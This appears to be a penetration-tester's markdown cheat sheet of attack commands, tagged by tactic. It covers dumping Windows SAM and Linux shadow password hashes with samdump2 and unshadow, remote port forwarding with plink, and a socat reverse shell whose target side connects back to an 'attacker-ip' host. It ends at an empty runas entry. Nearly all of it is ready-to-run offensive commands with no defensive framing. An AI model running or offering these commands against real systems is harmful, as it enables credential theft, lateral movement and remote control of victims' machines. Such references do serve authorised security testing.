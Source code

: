 
# samdump2
- service: sam
- tactics: credential_access

- `samdump2 SYSTEM SAM > hashes.db`

---

# unshadow
- service: sam
- tactics: credential_access

## unshadow /etc/passwd file
- `unshadow shadow passwd > unshadow.db`

---

# plink.exe
- service: all
- tactics: lateral_movement

## Port forward using plink
- `plink.exe -l username -pw password target-ip -R 8080:127.0.0.1:8080`

---

# socat
- serivce: all
- tactics: command_and_control

# reverse_shell
## attacker
- ``socat file:`tty`,raw,echo=0 tcp-listen:12345``

## target:
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker-ip:12345"`

---

# runas
- serivce: windows
- tactics: privilege_escalation
